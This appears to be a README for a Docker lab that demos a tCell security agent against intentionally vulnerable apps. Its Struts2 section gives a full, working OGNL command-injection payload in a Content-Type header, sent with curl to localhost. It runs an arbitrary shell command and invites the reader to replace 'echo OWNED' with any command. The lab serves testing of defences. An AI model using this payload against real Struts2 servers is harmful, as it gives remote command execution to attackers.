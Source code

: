 
**setup**

1.  untar your agent distribution to the tcell/ directory
2.  copy your tcell_agent.config file to the tcell/ directory


**For the Struts2 Command Injection exploit:**

1.  launch with `docker-compose up struts2-exploit` from this directory.
2.  inject a command with: `curl http://127.0.0.1:8081/struts2-showcase-2.3.12/showcase.action  -H "Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo OWNED').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"`
3.  change `echo OWNED` in the above statement to any command you want.

**For the Jersey Command Injection app:**

1.  launch with `docker-compose up jersey-injection` from this directory
2.  open `http://localhost:8080/jersey/` in your browser.
